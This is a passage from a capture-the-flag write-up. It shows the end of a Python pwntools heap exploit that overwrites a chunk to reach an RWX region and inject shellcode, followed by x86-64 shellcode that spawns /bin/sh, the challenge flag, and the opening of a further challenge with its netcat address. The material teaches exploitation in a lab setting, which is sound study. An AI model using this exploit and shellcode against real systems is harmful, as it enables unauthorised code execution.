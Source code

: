 ```python
    add(CAT, b'aaaa', b'bbbb', 77, 77)
    add(CAT, b'cccc', b'dddd', 77, 77)

    payload = b'a' * 0x18 + p64(0x71) + p64(rwx)
    edit(CAT, 0, payload)

    payload = p64(0x0) + p64(rwx+0x10) + shellcode
    feedback(payload)
    hear(CAT, 1)

    log.success("rwx: %#x", rwx)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% code title="shellcode.asm" %}
```asm6502
    BITS 64
    DEFAULT REL

    section .text
    global _start

_start:
    lea rdi, [sh]
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall

sh: db "/bin/sh", 0
```
{% endcode %}

{% hint style="success" %}
Flag: _**NCW{f5dd5940e67302053400694fbc4564a5e8d783a6f3a8cf0859450b5ff1d4a03a}**_
{% endhint %}

## veight

### Description

> Goal run "/readflag"
>
> Author: Enryu
>
> `nc 103.145.226.92 11101`

<details><summary>Hint 1</summary></details>
